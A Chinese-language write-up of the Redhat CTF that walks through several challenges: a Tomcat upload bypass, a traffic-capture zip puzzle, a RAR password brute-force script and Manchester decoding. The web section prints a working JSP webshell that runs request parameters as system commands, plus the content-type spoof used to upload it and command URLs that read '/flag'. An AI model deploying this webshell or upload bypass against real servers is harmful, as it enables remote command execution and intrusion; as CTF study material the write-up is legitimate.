

国赛打完又是redhat~不过国赛辣鸡赛制让我们白打了（小声吐槽一波游戏体验极差的国赛）
1.Misc 签到
看管理员名片（后来直接在群里放出）签到题的flag为 flag{redhat_welcome}
2.Web
simple upload
打开是个登录页面，可题目说是上传，于是扫一下目录，发现有upload.html
打开果然是上传
随便传一个文件发现文件发现没有回显，于是打开BP抓一下包，可能需要改一下类型
先开始可能是没睡醒、、一直传php的马，结果被学长一语点醒。。。。这就是不是php网页你搞什么php
然后试一下报错页面，会看到服务器信息
搜一下发现有一些CVE，可是没什么利用的，所以还是上传问题，想了半天也不知道网站后端用啥写的、、怕是经验太少了
后来百度突然发现Tomcat大部分都是java写的，然后百度各种jsp马及利用方法，终于找到了一个1
2
3
4
5
6
7
8
9
10
11
12<%
if("023".equals(request.getParameter("pwd"))){
java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();
int a = -1;
byte[] b = new byte[2048];
out.print("<pre>");
while((a=in.read(b))!=-1){
out.println(new String(b));
}
out.print("</pre>");
}
%>
然后生成.jsp木马
打开BP上传，改一下admin为真，类型怕有过滤，改成image/png最保险~
如图
然后现在得到了上传的地址。。。菜刀连一下发现菜刀没有jsp马这个选项、、然后上hackbar
百度jsp马使用规则
最后构造payload为：http://65cc56140bdb44689b8c18dadbf9ff4d5f9ecd2f609a47ce.game.ichunqiu.com/1c0737e7-081a-4aab-94ea-5820e4e250bc/muma.jsp?pwd=023
&i=pwd
打开如下
发现可以读文件，后面又考察了linux系统一些基本操作（结果我有点菜hhh~）
然后改一下i为../ls可以读出文件列表
然后读一下flag文件http://65cc56140bdb44689b8c18dadbf9ff4d5f9ecd2f609a47ce.game.ichunqiu.com/1c0737e7-081a-4aab-94ea-5820e4e250bc/muma.jsp?pwd=023
&i=cat /flag
得到flagflag{bdfa6be5-b026-4a90-8fbd-17f9df63cba3}
3.NotOnlyWireshark
打开是个流量包
导出一下http对象
发现一些很奇怪的东西如图
看起来像文件头，于是把他们后三位全部提取出来
生成一个zip文件
继续做下去发现思路没错，就是zip包里有文件
于是打开，结果要密码、、、
这时候和密码有关的只有先开始的流量包了
去找找
发现
key就是这个鬼东西了、、、出题人神脑洞！！！！?id=1128%23
打开就会显示flagflag{1m_s0_ang4y_1s}
4.听说你们喜欢手工爆破
下载下来是个OS镜像文件，百度一下知道这个文件可以直接解压查看
都是1K的文件，怀疑一下文件名、、往下发现有个rar包
打开需要密码，这时候就得爆破了
想到这些文件名作为字典爆破1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17
18
19
20
21import os
import os.path
rootdir = "C:/Users/admin/Desktop/OS_038c9291c8039792d1aad140f6664671"
file_object = open('train_list.txt','w')
for parent,dirnames,filenames in os.walk(rootdir):
for filename in filenames:
file_object.write(filename.rstrip('.txt')+ '\n')
file_object.close()
import os
f=open('train_list.txt')
s=f.readlines()
f.close()
for p in s:
cmd = "winrar e 1.rar -y -p%s" % (p)
r = os.system(cmd)
if r == 0:
print("pass = %s" % p)
break
这个需要添加下winrar环境变量
rar文件就被打开了
里面有个word文档，还是需要密码、、、、
上一波小工具
打开是一篇文档、、、、百度一下发现名字叫《海边的曼彻斯特》
应该是曼彻斯特编码
参考一下dalao博客
https://www.xmsec.cc/manchester-encode/
贴一波脚本1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
16
17a=0x123654AAA678876303555111AAA77611A321
flag=''
bs='0'+bin(a)[2:]
a=''
def conv(s):
return hex(int(s,2))[2:]
for i in range(0,len(bs),2):
if bs[i:i+2]=='01':
a+='0'
else:
a+='1'
print (a)
for i in range(0,len(a),8):
tmp=a[i:i+8][::-1]
flag+=conv(tmp[:4])
flag+=conv(tmp[4:])
print (flag.upper())
其中a就是门禁密码
输出为
提交就是flagflag{5EFCF5F507AA5FAD77}
5、问卷
答完就会有flagflag{我们在广州塔等着你}
6、